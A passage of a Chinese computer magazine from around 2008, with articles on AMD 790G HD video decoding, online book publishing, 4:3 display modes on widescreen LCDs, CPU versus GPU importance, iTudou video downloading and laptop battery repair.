AMD 790G是今年下半年才普及的整合平台，但是其集成显卡的规格却非常高，主要是具备了高清硬解码加速引擎UVD。这是一个结合了视频采集、硬件压缩/编码/解码、影像后期处理、最终显示于一身的全面硬件解决方案。AMD 790G的集成显卡可以支持H.264、MPEG2和VC-1全格式的硬件解码，这比普通的解码加速还要彻底，是通过集成GPU内置的功能单元来实现的。此外，这些功能将内建在驱动程序中，不需要通过第三方软件或是另外加购的解码模块就能实现。也就是说，AMD 790G用户只要安装了最新版本的ATI官方催化剂驱动和多媒体控制台，那么驱动程序会拦截任何播放软件以及解码器，直接调用硬件解码。根据很多测试，AMD 790G配合一款低频入门级CPU在播放25Mbps的H.264视频时毫无丢帧现象，而且CPU占用率非常低。

> 小贴士：切莫乱用第三方驱动
为ATI显卡开发驱动的第三方组织非常多，但是这些驱动往往都把3D性能作为重点，比较忽略视频功能，甚至经常与一些播放软件以及解码器形成冲突。为此，建议普通新手不要乱用这些第三方驱动，毕竟ATI官方驱动和多媒体控制中心是经过严格测试的，更加适合多媒体应用。

## 总结：
整合平台并非大家想象中一定与高清视频无缘。其实，只要通过合理的优化设置，也能观看高清大片。最最关键的是，大家需要充分利用好显卡的解码加速资源，不能把所有的负担都放在CPU上，否则即便是高端CPU也难堪重负。相反，只要显卡起到了解码技术作用，那么普通的单核CPU也能在高清视频解码时游刃有余。

当然，在玩转HDTV的同时，也建议大家不要过度拘泥于软件优化，因为在集成显卡无法支持硬件加速的情况下，任何优化都是以牺牲画质为代表的。如果实在很需要经常看高清电影，添加一块具有UVD引擎的AMD独立显卡将会显得更加轻松自在。

## 我要当“作家”
——一个网络平台圆你的作家梦
你想要知道近年来出现的像安妮宝贝、宁财神、痞子蔡等网络作家是怎么让大家读到自己的作品并一举成为网络写作红人的吗？你是否也有满腹文采却找不到合适的伯乐来圆你的作家梦呢？

在这里，笔者为你提供一个成为作家的平台——www.17xie.Com网站，这个网站还有个别称“一起写书网”。这个“一起写书网”足以让你挥洒笔墨，自由发挥创作。你的作品一旦在这个网站上发表，只要你的文章的点击率足够高，人气足够旺，就自会有伯乐来敲你的门，为你提供关于出书的一切专门待遇，如：封面设计、专业排版等，让你的作品闪亮上市。

◆文/TMG wangwei

进入网站主页你就会看到“一起写网是开放的出版平台，众多资深出版人为您提供优质的出版服务”这句话。试想一下，哪天你的图书在这个网站上发表了，火了起来，说不定还会被哪位导演看中，拍成影视作品而家喻户晓呢！

想要在这个网站上进行创作就要先登录这个网站，然后免费注册会员，成为该网站的会员就可以开始创作自己的图书了（见图1）。

在图1你看到网站主页右上方的登录界面了吗？那就是会员登录的地方。如果你是第一次使用这个网站，就要用自己独一无二的笔名注册成为会员，而注册的这个笔名就是你以后在网上发表著作时所使用的名字。

下面我来为大家简单介绍一下在这个网站上发表文章的步骤：

- Step1：很多网站都要先注册会员。
单击“注册会员”，在弹出的网页里填写自己的详细资料。填写完毕后单击“提交注册”就OK了！

### Step2：我们来先了解网站的主要布局。
在登录后的网站主页最上方可以看到“主页”、“写书”、“出版”、“论坛”几个标签。将鼠标挪动到“写书”标签上，在这个标签下方就会出现“创建图书”、“如何写书”、“关于版权”几个按钮（见图2）。


### Step3：如何写书轻松搞定。
单击“如何写书”按钮，让我们来了解一下如何在这个网站上写书。
单击这个按钮后会弹出一个网页，该网页详细介绍了在“一起写书网”上创建图书的步骤。细读这个网页我们就会明白在这个网站上如何写书了。
可以看到，这个网页分别就注册用户和非注册用户怎么创建图书都做了很直观的介绍。

### Step4：创建图书方便随心。
单击“创建图书”按钮，进入创建图书的网页。在这个网页的右方对每一步所对应的操作都有详细的讲解。

> **小贴士：**
在退出图书编辑页面之前记得要单击右上角的“保存”按钮！否则你的心血就会付诸东流了。想要看看图书的效果，可以单击“进入阅读模式”查看。

填写完有关内容后单击网页最下方的“创建图书”按钮即可进入该图书的编辑页面。

### Step5：快来给新书穿上漂亮衣服吧。
**包装精美封面：** 单击界面上的“上传封面”按钮，可为你的图书上传漂亮封面。
**创建搜索标签：** 单击“修改标签”按钮为你的图书设置标签，通过标签可让网友更容易搜索到你的图书，提高图书的人气。
**内容简介让更多人快速了解你的图书：** 在“内容简介”一栏中单击“修改简介”按钮，可以编辑图书的简介。要知道为图书书写精彩的简介是吸引读者的绝好办法喔！
为图书创建目录：在“本书目录”一栏可创建图书的目录。

### Step6：编辑图书最主要的部分——图书内容的创作。
单击“编辑本书”按钮即可开始创作该图书。
可以看到，图书编辑界面类似于Office软件里的Word。为了编写方便，你还可以在Word上编辑图书，编辑好后再将编好的文字导入这个图书编辑页面。
在图书编辑页面的第一页可以看到关于如何在上面编辑图书的提示，你可以根据上面的提示进行操作。
从编辑图书的主页面我们还可以看到，编辑图书时可为图书插入美图或是有趣的视频，让图书内容丰富多彩起来！

### Step7：邀请感兴趣的人一起编写图书。
打开图书编辑页面上的“作者信息”菜单，在弹出的菜单内选择“邀请作者”命令，可让更多的人参与到对这本图书的编辑中来。

### Step8：开放或关闭图书随你便。
打开“图书管理”菜单，在弹出的菜单内选择“本书开关”命令，你就可以轻易决定是否要将该图书放到网络上供网友阅读评论。

总结：以上就是关于如何在www.17xie.com网站上写书的几个重要步骤，如果你想要对它进行更深一步的了解，何不现在就进入这个网站亲自操作一下呢？未来的一颗写作新星说不定就此诞生了。

## 完美呈现4:3画面
——让宽屏显示器和标屏分辨率和睦相处
在CRT时代，800×600和1024×768分辨率流行了很长一段时间，这种4:3的显示比例已经让大家习惯了。而在LCD时代，由于可视面积迅速攀升，以及液晶面板厂商追求利润最大化，4:3面板不再是理想的选择，宽屏LCD显示器也因此而浮出水面。可是，目前仍然有不少游戏软件和专业应用软件必须工作在4:3分辨率下，或者在宽屏16:10分辨率下难以达到理想的效果。对此，近期不少宽屏LCD新品开始加入了4:3切换功能。一时间，宽屏LCD切换标屏分辨率成为一项热门应用，更由此引发了点对点显示效果调节以及老款宽屏LCD手动切换分辨率的新方法。

◆文/方成亮

### 新品选购：标屏切换也有玄机
对于液晶面板来说，最佳分辨率只有一个，这是与其物理特性相对应的。如果没能运行在最佳分辨率上，那么画质将会大幅度降低，只能以插值计算的方式来显示，无法满足大多数用户的需求。譬如，22英寸LCD的物理分辨率是1680×1080（长宽比16:10），一旦强制使用1024×768分辨率（长宽比4:3），那么画面势必被拉伸。此时，不仅分辨率变差造成画面模糊，而且画面压扁后严重失真，让用户感到非常不舒服。


为了解决这一难题，市场上新款宽屏LCD显示器都开始加入了标屏分辨率切换功能，这一功能可以通过LCD控制菜单实现，也可以通过面板上的快捷键来实现。在选购新品时，我们也强烈推荐大家购买配备这类功能的产品，毕竟这将在实际应用中带来很多便利之处。不过，同样是标屏分辨率切换，不同产品在效果上还是有很大差距的。总结来看，主要体现在三个方面：切换后分辨率是否点对点、可支持的切换分辨率、切换前对分辨率的要求。

### 1. 切换后分辨率是否点对点
所谓的点对点显示也被称为1:1 Map或者Dot by Dot，从字面上我们就可以看出其中带有一一对应的意思，而它的实质就是分辨率匹配。凡是固定像素的显示设备，其成像器件的分辨率都是固定不变的，这个分辨率一般被称为“物理分辨率”，例如1024×768的物理分辨率即表示它的成像器件具有1024×768个像素。只有当图像或信号源的分辨率与电视机物理分辨率正好相同时，它们的像素才有可能出现一对一的映射（即点对点显示），从而让LCD显示出与源图像完全匹配的图像。

无论是19英寸宽屏还是22英寸或是更大尺寸的宽屏LCD，由于其默认的分辨率长宽比是16:10，因此显示4:3分辨率的时候，实现点对点效果与全屏显示是两者不能兼顾的。对于没有切换功能的LCD显示来说，套用4:3分辨率也能全屏显示，可是画面模糊且失真。对于有切换功能的产品来说，此时要解决两个问题：一是避免画面模糊，二是避免画面失真。


画面模糊的原因是没有实现点对点。为了实现点对点，宽屏LCD应该在其面板范围内，根据像素点使用。譬如，19英寸宽屏的分辨率是1440×900，那么实现1024×768分辨率时，横向应该使用1024个像素，纵向应该使用900个像素，此时画面处于屏幕正中央，四周会留下黑边。但是，这样对于LCD来说很浪费可视面积。因此，有些产品的标屏切换功能并不是点对点实现方式，而且在现有可视面积的基础上，最大限度划分出一份4:3的显示面积。此时，尽管没有实现点对点，但是解决了画面失真问题。


### 2. 可支持的切换分辨率
标屏应用可不仅仅是1024×768的4:3显示方式，除此之外，很常用的标屏分辨率还有800×600、1280×960、1280×1024以及1600×1200，其中1280×1024是5:4显示方式。一款宽屏LCD号称支持标屏切换，并不意味着支持所有的标屏分辨率。一般来说，支持分辨率种类越多，那么对于用户是越有利的。

### 3. 切换前对分辨率的要求
大部分LCD显示器的切换模式开关在主菜单里设置选项中，宽屏分辨率情况下它是不可选的（灰色），只有当4:3或者5:4比例下，才能选择。其实，这并不是非常方便。譬如，当我们需要在22英寸宽屏中，将1680×1050分辨率强制调节成4：3，那么这类产品就会无法支持。当然，强制把宽屏分辨率调节成4：3或者5：4长宽比会令画面失真，因此这项应用的实际意义也并不是很大。


### 小贴士：不能点对点的具体表现是
图像不能满屏显示或者图像超出屏幕范围外。图像不够清晰，边缘有毛刺或重影，图像中的每个像素和液晶电视上的每个像素不能完全对应，这就是点对点命名的来历。


## 自力更生：显卡驱动也能切换屏显示
千万不要以为宽屏LCD显示器的切换功能是独门绝技，其实许多玩家忽略了一个重要原因：通过显卡的驱动选项可以直接把宽屏调节成4:3模式进行游戏（和液晶本身支不支持4:3没有任何关系），目前NVIDIA卡和ATI卡驱动选项里都有支持4:3缩放的功能，就连最新的Intel G31/G33集成显卡也可以实现这项功能。

### NVIDIA显卡的调整方法
NVIDIA的Forceware驱动从92.71版本开始，对标屏分辨率切换功能有了很好的兼容性。在显卡驱动高级设置界面调出“数字平板显示器设置”之后，大家可以看到4个选项，分别为：显示适配器缩放比例、居中输出、显示器缩放比例、固定纵横缩放比例。在选择任何一种模式之后，都可以继续调整分辨率。

根据我们先前为大家介绍的知识，其实不难理解这些选项的区别。系统默认情况下是显示适配器缩放比例，此时即不进行任何设置，切换标屏分辨率会导致画面模糊和失真。“居中输出”是点对点显示方式，此时LCD只会使用标屏分辨率的物理像素，画面非常精细且不失真，只是损失的可视面积实在太大。显示器缩放比例则是最大限度利用LCD的可视面积，在保证画面不失真的前提下进行切换，但是点对点效果就无法实现了。最后的“固定纵横缩放比例”则是不管哪种分辨率，都强制切换成LCD默认的长宽比显示，这项功能几乎没有什么用场。


### AMD-ATI显卡的调整方法
ATI显卡在调整的时候，必须安装催化剂驱动的完整版，即包括驱动控制台。以普遍使用的8.6版催化剂驱动为例，进入高级设置界面的“数字面板”选项，此时3个选项分别为Maintain aspect ratio（保持纵横比）、Scale image to full panel size（调整影像比例为整个面板大小）、Use centered timings（使用中心计时）。这里的第一个选项是保持画面比例，拉伸到全屏，即确保画面不失真的情况下最大限度利用可视面积；第二个选项则是不管什么分辨率都拉伸到全屏，即默认设置；最后一个选项则是保持原有分辨率与比例的点对点显示方式，即画面显示在屏幕中央。


此外，自从催化剂8.3开始可以使用GPU加速缩放支持宽屏比例（选择Enable GPU scaling），而不再以显示器本身扩展非原生分辨率的画面。此时，系统可以在启用GPU加速缩放的时候维持屏幕比例、改善显示质量、避免图像扭曲。

## 总结：
4：3或是5：4标屏分辨率切换是一项很实用的功能。但是，已经购买了老款产品的消费者也不用着急，因为显卡驱动已经为我们准备好了一切。不过相对于显卡驱动调整，其实显示器厂商在非点对点模式下的画面校调更加出色，此时画质损失可以降低到最低限度。此外，切换标屏分辨率时最好配合DVI数据线，避免VGA模拟信号的兼容性问题。

## 向左走还是向右走？

## CPU与GPU 谁更重要
◆文/阿亮

## 谁挑起了CPU和GPU的战争
就在今年5月份，NVIDIA亚太区高级市场总监海鸥在接受媒体采访时表示，“CPU大势已去，会与GPU共存于市场，但GPU比CPU更为重要。”一时间，一场口水战瞬间爆发，Intel自然表示了极大的不满，而同时拥有CPU和GPU产品线的AMD则一直沉默不语。其实，挑起这场战争的主角并不是NVIDIA，更不是Intel，而是软件开发商以及3D游戏设计方式使然。

## 3D游戏支持平台：CPU和GPU的分工
紧张刺激的3D游戏对于很多用户的诱惑力是毋庸置疑的，而同时这类应用对于硬件设备的要求也是相对较高的。首先需要明白的是，在大多数情况下，3D游戏无法流畅运行的原因并不是内存容量不够大，也不是通过升级某一款驱动程序所能解决的问题，CPU和显卡是最值得关注的两大因素。

在3D游戏中，每一个场景的构筑都需要显卡极大的工作量，屏幕上每一个景物都是由显卡根据图形透视原理，通过多个三角形的组合形成的，显卡既要保证近大远小的透视效果，还要根据第一视角的位置实现遮挡效果，这里自然对显卡的性能有着很大的需求。不过，CPU作为整个系统的中枢神经也有极为重要的地位。CPU在3D游戏中所起的作用就是对三维场景进行设计，显卡生成的每一个点都是由CPU规定。此外，CPU还要负责诸如游戏数据处理等工作，负担丝毫不亚于显卡。毫无疑问，片面地强调CPU或者显卡的作用都是错误的，毕竟两者是不可分离的有机体。

笼统来看，我们可以将游戏分成四类：第一种是基本的2D游戏以及初级3D游戏（如帝国时代与模拟器游戏），第二种是中生代3D游戏（如CS、魔兽争霸3等），第三种是新生代3D游戏（Unreal2、极品飞车10、实况足球2008等），第四种是发烧级3D游戏（信条刺客、失落的世界等）。毫无疑问，以现今的眼光来看，前三类游戏对于CPU以及显卡的性能要求都不高，主流低端配置就足以应付。但是，面对第四类游戏，CPU和GPU的贡献程度就值得我们关注了。

对于需要CPU进行大量AI运算的游戏来说，在固定的显示分辨率下，CPU的架构越先进、主频越高，那么的优势更加明显。著名的射击游戏使命召唤4就是一个很好的例子。当你在对战模式中开启了30个左右的敌人，大混战的时候就很容易体现出高端CPU与入门级CPU之间的区别了。但对于“次世代”游戏（刺客信条、失落的世界等）来说，显卡的性能越强，游戏的画面和流畅性也越高。为什么会出现这些现象呢？下面将会给你一个满意的答案。

### 小贴士：“万能”的MMX多媒体指令集
当Intel第一次在Pentium处理器上推出MMX多媒体指令集的时候，业界无不惊呼多媒体时代的真正到来。的确，MMX技术的价值非常巨大，甚至在游戏应用中也有不错的效果。但是，当3D游戏真正出现的时候，我们却发现MMX其实并不管用，这并不能执行3D操作。也正因为此，后来不少消费者开始意识到，要玩爽3D世界，仅有CPU是远远不够的。

高性能CPU对于游戏AI运算和流畅度的帮助非常大

## 一、回顾过去：CPU和GPU两者谁重？
一套系统的性能是由多方面的因素决定的，而其中CPU和显卡又往往是大家最为关注的两项。如果预算足够，追求CPU和显卡的极致当然没错，但是搭配的平衡却是必须考虑的一个问题，因为只有搭配平衡了，才能最大限度地发挥系统的性能，做到物尽其用。在以前，CPU和GPU资源都处于极度匮乏的状态，因此任何一方的性能提升总是能令人欢欣鼓舞。

在3D游戏出现之前，显卡的作用仅仅是显示画面，因此能否支持更高的分辨率和刷新率是关键。从原理上说，3D游戏需要进行Homogeneous coordinates（齐次坐标）、Shading models（阴影建模）、Z-Buffering（Z-缓冲）、Texture-Mapping（材质贴图）等操作，但是这些在2D游戏中均不存在。因此，游戏的重点在于AI设计，此时对CPU性能提出较高的要求，大部分运算全部由CPU负责，显卡只是进行画面刷新和输出而已。如果以PCI显卡出现为开始进行计算，从经典的S3 765到被称为2D终结者的Trident 9750，其实性能差距并不大。唯一的差别在于，S3 765的显存较少，因此无法在800×600这样分辨率下运行当时的新游戏。而在进入3D时代之后，GPU的重要性突然显现出来。要知道，当时GPU几乎是“从零开始”，因此CPU退居二线自然不是什么奇怪的事情。

我们总结了一下1998年到2002年的3D显卡和CPU组合以及常规游戏，应该说那个时期GPU在3D游戏应用方面的重要性压过了CPU。只不过，当时PC应用瓶颈还有很多，因此大家感觉高性能的CPU也很有价值，略微忽略了GPU的贡献。熟悉硬件配置的朋友应该能够发现，如果把上一年的CPU配合下一年的显卡，然后运行下一年的游戏，那么丝毫不会有任何问题。但是，反过来的话，可绝对是“老牛拉破车”。

| 年代 | 主流CPU | 主流显卡 | 主流游戏 |
|------|---------|----------|----------|
| 1998年 | K6-2 Pentium II | Voodoo2 TNT | FIFA98 古墓丽影 |
| 1999年 | Pentium III | TNT2 G400 | 极品飞车5 |
| 2000年 | Pentium III | GeForce 256 | 帝国时代2 |
| 2001年 | K7 Athlon | Radeon 7500 | 极品飞车7、CS |
| 2002年 | Pentium4 Celeron4 AthlonXP | GeForce 4 | 魔兽争霸3 |

## 二、时代变化：天平倾斜时刻调整
尽管CPU和GPU一直配合工作，但是在不同时期，它们对于各项应用的贡献程度是完全不同的。也正因为此，当显卡GPU厂商发现其产品无法得到消费者重视的时候，自然会着急地抛出相关言论。而事实上，CPU和GPU孰轻孰重的评判还需要结合时代背景来客观看待。

### 1. 高分辨率：像素填充率的无限渴望
如今的GPU集成比CPU更多数量的晶体管，其复杂程度可想而知。从历代产品的发展过程来看，每一代GPU都保持着相对稳定的架构，即像素填充率决定基本速度，然后通过各种技术实现3D特效，从而在速度与画质方面取得双重进步。像素填充率或许是大家经常听到的技术名词，然而很多读者对此并没有直观的理解。简而言之，像素填充速率是显卡对像素和文本的渲染能力。在3D游戏中，每一个场景的构筑都需要显卡极大的工作量，屏幕上每一个景物都是由显卡根据图形透视原理，通过多个三角形的组合形成的，显卡既要保证近大远小的透视效果，还要根据第一视角的位置实现遮挡效果。

像素填充率表示在一定时间内3D解决方案可以渲染的像素数量，也是实现3D画面的基础。我们都知道一帧包括了一定数据的小点，称为像素，而每一分辨率都需要一定数量的像素。一般分辨率640×480由307200个像素构成，而较高的分辨率1600×1200则需要1920000个像素。显卡的GPU必须在帧幅显示之前渲染出帧幅的每一像素。毫无疑问，这就是决定显卡实际速度表现的关键。
如表中显示了主流显示器的分辨率应用情况。可以发现，进入2008年之后，随着大屏液晶的普及，分辨率明显提升，此时对应的像素填充率成倍猛增。更加重要的是，LCD显示器只有一个最佳分辨率，让用户降低分辨率运行游戏是一件痛苦的事情。
像素填充率越高，显卡的工作性能越好，特别是在分辨率较高或者运用大量3D特效的时候，因为这时需要处理的像素和文本更多。在显卡使用一个GPU时，像素填充率的计算方法为：GPU主频×渲染管道数量。而对于统一渲染架构的DX10显卡来说，渲染管道数量可以用流处理器数量来替代。很明显，21世纪的最初几年里，分辨率的提升步伐非常缓慢，此时对像素填充率的要求也就相对较低，造成不少游戏并不会对显卡GPU提出很高的要求；相反，最近两年则是分辨率大幅度提高的时候，GPU开始追求越来越多的流处理器数量，对3D游戏的整体贡献度也非常高。

| 主流显示器 | 推荐分辨率 | 高端显示器 | 推荐分辨率 |
|------------|------------|------------|------------|
| 2001～2002年 | 17英寸CRT | 1024×768 | 19英寸CRT | 1280×1024 |
| 2003～2004年 | 17英寸CRT,15英寸LCD | 1024×768 | 17英寸LCD | 1280×1024 |
| 2005～2006年 | 19英寸宽屏LCD | 1440×900 | 19英寸宽屏LCD | 1440×900 |
| 2007～2008年 | 22/21.6英寸宽屏LCD | 1680×1050 | 24英寸LCD | 1920×1080 |

| 主流DirectX版本 | CPU模拟范围 |
| --- | --- |
| 2001 ~ 2002年 | 可模拟 |
| 2003 ~ 2004年 | 无法模拟Pixel Shader |
| 2005 ~ 2006年 | 无法模拟Pixel Shader |
| 2007 ~ 2008年 | 无法模拟Pixel Shader和Vertex Shader |

也就是说，如果想要获得更好的3D特效，那么强劲的Pixel Shader和Vertex Shader性能必不可少，而这只能依赖于显卡GPU，CPU根本无能为力，甚至如今最新版本的Vertex Shader也无法由CPU模拟运行。
那么，AI设计又是怎么一回事呢？对于FPS游戏和RTS游戏来说，AI设计的重要性实在太高了，而这类游戏的流行程度在近几年是明显上升的趋势，高性能CPU也因此逐渐受到玩家们的重视。相反，RPG游戏和网络游戏对于AI设计的要求相对较低，此时就不需要非常强大的CPU。总之，我们从特效运算和AI设计角度来看，可以认为CPU的作用在近几年有所提高，而GPU依然非常重要。

### 3. 视频解码和图形加速
视频解码也是非常值得关注的应用。从当年VCD解码到DVD解码，以及最近流行的高清视频解码，其实我们应该清晰地看到这一过程：硬件解码过渡到解码辅助，最后则是纯软件解码。由于视频解码最高效率的执行过程是GPU，因此当CPU无法以纯软件解码方式运行的时候，依靠显卡是最好的方案。
在2006年和2007年，主流CPU的性能还不足以应对软件解码高清视频的需求，因此显卡GPU在这一领域的应用大行其道。但是，假如大家已经配备了一款三核CPU或者双核高频CPU，那么显卡GPU是否具备HDTV高清解码功能其实并不重要，因为此时软解压已经拥有很完美的效果，并且CPU占用率也并不高。当然，现在并不是否认GPU在高清解码中的应用效果，事实上它还是有助于降低CPU的占用率，尤其是还在使用低端CPU的用户，而且对色彩优化也有所帮助。
图形加速不仅仅是在游戏中用到，对所有图形界面的应用来说，其实都有显卡GPU的用武之地。譬如，微软的Vista操作系统界面就很好地利用了GPU资源。此外，如今一些普通应用软件也开始对GPU资源加以利用，譬如微软Office和Adobe Acrobat。NVIDIA此前就与Adobe公司合作，为其Adobe Acrobat 8及Adobe Reader 8系列产品提供全新的页面显示着色技术，NVIDIA GPU可以加速PDF格式下的绘图及显示功能。除了在图片刷新速度方面明显改进以外，NVIDIA用户也可以利用GPU的可编程特性，进一步加强PDF文件中的2D内容显示效果。
其实，不仅仅是2D绘图可以在应用软件中利用到GPU的加速效果，3D绘图也会受益于GPU的全面表现。以大家非常熟悉的Google Earth为例，普通显卡在显示3D景物时会略有迟钝，而NVIDIA的加速效果的确比较明显，这会令整个图像显示过程变得更加流畅。当然，MCP73对于办公应用的帮助不仅仅是Adobe Acrobat以及Google Earth，随着越来越多的软件充分利用GPU资源，这会令其使用范围越来越广。

### 2. 特效运算和AI设计
对于游戏开发商来说，其实应对主流硬件配置永远是不会被忘记的开发原则之一，否则慢得像幻灯片一样的游戏软件卖给谁呢？为此，游戏开发商在选择3D特效和AI设计时总会有不少顾虑。
首先来看一下3D特效，这是决定CPU和GPU孰轻孰重的重要因素。当进入DX8时代之后，Pixel Shader第一次登堂入室，当时其轰动效应是空前的。由于CPU无法模拟Pixel Shader操作，因此这类游戏非常依赖于显卡的GPU。事实上，这一局面直到今天都未曾改变。

## 展望未来：NVIDIA CUDA开创新天地
CUDA是Compute Unified Device Architecture（统一计算架构）的简称，是建立在GPU基础之上的通用计算开发平台。利用CUDA能够充分地将GPU的高计算能力开发出来，并使得GPU的计算能力获得更多的应用。

### 1. NVIDIA有能力挑战Intel吗？
从芯片设计能力的角度来看，如今NVIDIA显然已经羽翼渐丰。GeForce 9800的晶体管数量约为7.54亿个，而Core 2 Duo的晶体管数量也仅仅是2.91亿，可见NVIDIA显然已经具备复杂处理器的设计能力。但是，这一对比结果只是帮助我们判断其集成度设计能力和芯片制造能力，并不代表NVIDIA现在就有实力进入x86芯片的实质性研发阶段。
尽管GPU主频并不高，甚至还没有达到2GHz，但是由于其多管线并行工作方式，因此等效处理能力已经大幅度超越CPU。譬如在执行一些简单的计算程序时，NVIDIA G70核心将会表现得比Core 2 Duo E6600出色很多，而且两者不在同一个数量级上。但是，如果就此以为NVIDIA已经具备冲击Intel的技术研发实力，那也太过武断与无知。首先需要说明的是，CPU的工作指令比GPU复杂得多，分支预算和缓存架构更是难以掌握的芯片设计要领。做一个形象的比喻，G70就好比是一个进行过心算培训的神童，能够以惊人的速度实现快速口算。而现有的x86处理器则是一个正规大学生，尽管所谓的心算速度远不及神童，可是在面对微积分等高等数学问题时，大学生显然更有应对能力。

### 2. NVIDIA CUDA开创新时代
GPU的功能还不仅仅是在已经取得巨大成就的图形方面，现在有很多新的领域在使用GPU。比如物理模拟、信号处理中的一些音频、视频的处理等等，还有计算机科学以及数据库的管理。此外一些与计算相关的科学，比如像生物学、金融学等等都可以通过GPU的应用来极大地加强计算机在该领域中的运算能力，这些都依赖于CUDA。
CUDA兼有软件和硬件的性质，是为GPU所重新设计的一个新的架构，它使得开发人员可以用C语言而不是原来的OpenGL或DirectX来对硬件进行控制。通过使用基于GPU的C语言编程，就可以实现原来非图形应用的上百倍加速，让GPU有更多新的应用领域。NVIDIA从GeForce 8800系列开始到以后所有GeForce 8/9系列、Quadro 5600之后的新产品，所有Tesla产品都可支持CUDA。不过，从现实角度来看，NVIDIA CUDA还很难在PC上得到应用，毕竟PC平台要求x86处理器方式，不可能由GPU来取代CPU。

### 3. 来自AMD-ATI的声音
今年4月23日，AMD在其“和谐计算 卓越视界”创新技术大会上，强调CPU与GPU和谐工作，并提出了APU概念。APU为加速处理单元，是一种多核心的芯片，集合了一个或几个CPU核心、控制图形的GPU核心、控制高清的解码核心、连接控制器等等，通过不同的组合，比如增加多个处理器核心，增加或减少其它核心，提供需求不同的加速处理芯片。AMD首个APU产品面向笔记本电脑，代号Swift，其芯片中包括CPU、GPU、UVD、缓存、内存控制器等等，采用45纳米，上市时间为2009年下半年。
对于业内关于“CPU+GPU”是否会对GPU构成威胁这一话题，NVIDIA有关人员认为，“CPU+GPU”主要是用于低端、低功耗、简单的产品。“不说未来5年，至少在2年内对GPU没有威胁。把高性能的GPU与CPU整合在一起，在技术上很难实现。从计算上来说，双方相差很远。在高性能GPU架构上运营低CPU应用程序，效率会很低，反之亦然。”因此，不要忙于期待GPU和CPU的次世代大战，因为两者之间其实还存在很大的区别，在未来几年依然会是互相独立又互相配合的局面。

## 网络视频到手机，iTudou全搞定
◆文/飞云
土豆网大家都很熟悉吧，它是一个很不错的在线视频网站，网站上有很多有趣、好看的视频，这些视频如果可以保存在手机里面，那平时无聊的时候就可以随时拿出来欣赏了，可是对于这样的在线视频，需要下载后再转换为手机支持的视频格式，实现的过程比较麻烦，有什么简单的方法吗？其实土豆网早就帮大家考虑到了这个问题，推出了软件“iTudou”（下载地址：http://www.tudou.com/itudou/help），用它可以轻松地上传、下载、转换土豆网上的在线视频。
运行iTudou，需要使用土豆网的账号才可以登录，如果没有的话就申请一个，登录后在“我的主页”标签中随意点击一个视频，会弹出该视频所在的网页，当然我们也可以另外在浏览器中打开土豆网。
打开土豆网后，我们就可以在网站里面寻找需要下载的视频，当找到要下载的视频网页后，我们可以发现视频下面的“下载视频”按钮，点击这个按钮，iTudou就会把该视频添加到“我的节目库”中进行下载。
下载好视频后，我们再点击下面的“另存/转换”按钮，在弹出的窗口中选择一下要转换的格式和保存目录，如想在手机上进行播放，那可以把视频转换为3GP或者MP4，设置好后点击“确定”按钮就可以进行转换了。转换好后，我们只要通过手机数据线把视频文件从电脑里面保存到手机中就可以了。

## 拯救动力源泉
——笔记本电池修复指南
笔记本最大的优势便是移动性，而提供这一切的基础便是电池。在节能技术以及电池技术暂时难有突破的时候，充分优化电池并且掌握一些相关的使用技巧将很有帮助。然而笔记本电池使用时间长了，就常常充不满，甚至显示电池损坏，因此必须在使用时特别注意一些技巧。
◆文/阿亮

### 一、选择最佳的修复时机
笔记本电池出现老化现象是无法避免的，几乎所有的修复方法都是适用“深充深放”的原理，以此来缓解电池记忆效应。但是不可否认，深度的充放电操作对于笔记本电池本身并没有好处，是一种不得已而为之的方法。如果电池续航时间仅仅减少了几十分钟，那么应当谨慎采取这种操作方法。此外，厂商已经对电池进行了最优化，不存在自行深度充放电可以再次提升电池容量的说法。但是究竟何时需要深度充放电是很难掌握的，毕竟每次使用时所消耗的电力并不一样，因此建议大家借助BatteryMon这款专业软件（http://www.passmark.com/download/index.htm下载）。
BatteryMon是一款专门针对笔记本电池监视的小软件，特别对于那些没有内置电源管理芯片和软件的机器，它无疑帮了不少大忙。BatteryMon最大的特色是可以显示放电曲线，并且安装后会自动运行。一款性能良好的电池一定会有非常规则的放电曲线，如图所示，基本上每下降一格的时间大概都是相同的。而如果发现有十分异常的跳动，那么就很有必要进行电池“深充深放”修复。

### 二、“深充深放”的基本方法
电池校正是对付衰老电池的有效方法，一般而言，各个品牌的笔记本都会有专用的电池校正软件。譬如IBM的ThinkPad系列有专用的放电软件，推荐所有使用IBM笔记本的用户使用。不过该程序需要重复3遍才能得到最好的效果，下载地址为http://download.pchome.net/system/sysenhance/10216.html。下载放电软件并执行后，系统会提示制作安装盘。使用该安装盘引导PC-DOS，提示拔掉AC电源，放电软件会自动进行放电控制。当一切结束之后笔记本会自动关机，然后我们可以接上AC电源进行充电，时间控制在9～12小时，反复进行2～3次即可。
对于笔记本电池的激活，我们关键要找到合适的放电软件。如果你的笔记本不巧没有专用的放电软件，那么可以关闭BIOS以及Windows中的电源管理功能，然后在不运行任何程序的情况下将电池耗尽，接着在开机状态下充电到80％左右，反复几次后也等于是手动“深充深放”。事实上，这种做法的目的是让电池持续小电流放电，而这种放电状态在我们的日常使用中是不可能达到的，其效果与那些专用的放电软件基本一致。

### 三、锂电池换芯
假如“深充深放”已经没有明显效果，那么证明笔记本电池已经“病入膏肓”。不过大家根本没有必要更换整块电池板，毕竟原厂电池往往是天价。事实上，笔记本电池可以分为电路板与锂电池电芯两部分，其中前者损坏的概率很小，大部分报废的笔记本电池都可以通过升级锂电池电芯来起死回生。
笔记本电池粘合技术各有不同，有些老式电池上是利用螺丝夹住的，有些好一点的电池是用超声波焊接的，一般采用强力胶将上下盖粘合，这时候可以先仔细观察一下，看看电池块上有哪些缝隙，考虑一下要把哪些缝隙用刀片和螺丝刀撬开。拆解时可用电工刀或刀片沿电池上下盖结合处的细缝切入，并环绕细缝一周，然后用一字型螺丝刀插入细缝一侧撬开电池盒，注意用力不能过猛，否则可能会损伤电池盒或内部的电路板。拆开外壳之后就能看到内部的锂电池电芯了，一般由4～8节电池采用串联并联的混合方式组成，建议大家购买相同电压与数量的电芯，然后不要改变连接方式进行升级。升级笔记本电池电芯需要一定的电工基础，拆下原有的电芯时一定要非常小心谨慎，千万不能弄坏周边的电路板，并且给连接底片预留一定的长度。此外，大多数锂电池电芯都在外壳上镀了铬，这给上锡造成了很大的不便。当然，我们并不会因此而难倒，一般只要用刀片轻轻地将电芯的两极刮花，然后用烙铁在刮花处上一层松香，再用沾上焊锡的烙铁对电芯进行焊接就容易多了。
检验笔记本电池的电压
